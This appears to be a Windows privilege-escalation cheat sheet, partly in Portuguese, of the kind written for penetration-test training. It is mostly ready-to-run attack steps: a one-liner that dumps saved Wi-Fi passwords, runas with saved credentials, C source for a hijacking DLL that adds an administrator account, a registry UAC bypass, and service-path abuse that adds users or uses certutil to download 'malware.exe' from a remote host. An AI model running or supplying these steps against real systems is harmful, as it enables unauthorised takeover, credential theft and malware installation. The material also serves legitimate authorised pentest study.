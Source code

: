 ## PRIVILEGE ESCALATION FOR WINDOWS  
[![Banner](banner.png)]()  

#### LInks:  
> https://www.fuzzysecurity.com/tutorials/16.html  
> https://sushant747.gitbooks.io/total-oscp-guide/content/escaping_restricted_shell.html  
> https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/  
> https://github.com/Gr1mmie/Windows-Privilege-Escalation-Resources  
> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md  
> https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html  


#### Enumerando o sistema:  
```
C:\> systeminfo 
C:\> systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
C:\> wmic qfe get Caption,Description,HotFixID,InstalledOn
```

#### Enumeracao de usuarios:  
```
C:\> whoami /priv
C:\> whoami /groups
C:\> net user
C:\> net user administrator
C:\> net localgroup
C:\> net localgroup administrators
```

#### Enumeracao de rede:  
```
C:\> ipconfig /all
C:\> route print
C:\> netstat -ano
```

#### Password hunting:  
```
C:\> findstr /si password *.txt *.ini *.config
C:\> net show profile
C:\> cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

#### Enumeracao de av/firewall:  
```
C:\> sc query windefend
C:\> sc queryex type= service
C:\> netsh advfirewall firewall dump
C:\> netsh firewall show state
```

#### Automated tools:  
> [https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation]

###### Executables:  
```
winPEAS.exe
Seatbelt.exe (compile)
Watson.exe (compile)
sharpUp.exe (compile)
```  
> https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS  
> https://github.com/GhostPack/Seatbelt  
> https://github.com/rasta-mouse/Watson  
> https://github.com/GhostPack/SharpUp  


###### PowerShell  
###### Sherlock.ps1  
###### PowerUp.ps1  
###### jaws-enum.ps1  

> https://github.com/rasta-mouse/Sherlock  
> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc  
> https://github.com/411Hall/JAWS  

#### Other:  
###### windows-exploit-suggester.py (local)  
###### Exploit Suggester (metasploit)  

> https://github.com/AonCyberLabs/Windows-Exploit-Suggester  
> https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/  

#### Windows exploit suggester:
```
C:\> systeminfo > sysinfo.txt
$ curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py; python get-pip.py
$ pip install python-xlrd ; pip install xlrd --upgrade
$ git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
$ ./windows-exploit-suggester.py --update
$ ./windows-exploit-suggester.py --database 2020-04-17-mssb.xls --systeminfo sysinfo.txt
```

#### Buscando arquivos no windows:  
```
C:\> where /R c:\windows bash.exe
```

#### Impersonation e ataques de potato:  
> https://ohpe.it/juicy-potato/  
> https://github.com/ohpe/juicy-potato  
> https://github.com/rapid7/metasploit-framework/pull/11230  

###### OU  
```
meterpreter> getsystem -h
meterpreter> getsystem 0
```

#### Runas:  
```
C:\> cmdkey /list
C:\> C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"  
```

#### DLL hijacking:  
```
$ pico malw_dll.c
```

```
// For x64 compile with: x86_64-mingw32-gcc malw_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc malw_dll.c -shared -o output.dll

#include <windows.h>

BOLL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net localgroup administrators hacker /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

```
$ x86_64-mingw32-gcc malw_dll.c -shared -o hijacking.dll
$ python2 -m SimpleHTTPServer -p 80
```  

##### Bypass uac:  
> [outro: https://redteamer.tips/uac-bypass-through-trusted-folder-abuse/] 
```
C:\Users\bob\Downloads\SysinternalsSuite> sigcheck.exe -a -m c:\windows\system32\fodhelper.exe
```

###### OU:  
```
C:\Users\bob\Downloads\SysinternalsSuite> sigcheck.exe -a -m c:\windows\system32\computerdefaults.exe
C:\Users\bob\Downloads\SysinternalsSuite> reg add HKCU\Software\Classes\ms-settings\Shell\Open\command  <-analisar EXE com procmon primeiro
C:\Users\bob\Downloads\SysinternalsSuite> reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
C:\Users\bob\Downloads\SysinternalsSuite> reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```

#### Services:  
```
C:\> wmic service get Name,State,Path | findstr "Running" | findstr "Program "
C:\> icacls "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```

###### OU:  
```
C:\> C:\Users\bob\Downloads\SysinternalsSuite> accesschk.exe -wvcu "Users" *
C:\> sc query NOME_DO_SERVICO
C:\> sc config NOME_DO_SERVICO binPath="net user alice Pass@123 /add"
C:\> sc qc NOME_DO_SERVICO
C:\> sc stop NOME_DO_SERVICO
C:\> sc query NOME_DO_SERVICO
C:\> sc start NOME_DO_SERVICO
```

###### OU:  
```
C:\> sc config NOME_DO_SERVICO binPath="certutil -urlcache -f http://192.168.0.16/malware.exe file.exe"
C:\> sc config NOME_DO_SERVICO binPath="file.exe"
C:\> sc stop NOME_DO_SERVICO
C:\> sc start NOME_DO_SERVICO
```

